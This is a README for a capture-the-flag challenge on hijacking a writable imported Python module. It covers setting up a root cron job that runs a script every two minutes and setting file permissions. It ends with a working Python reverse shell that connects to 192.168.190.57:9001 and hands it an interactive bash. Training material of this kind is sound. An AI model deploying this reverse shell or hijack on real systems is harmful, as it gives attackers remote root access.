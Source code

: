 # EncryptEdge RCSCTF

This repository contains code for the EncryptEdge RCSCTF Challenge No.3

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.190.57", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```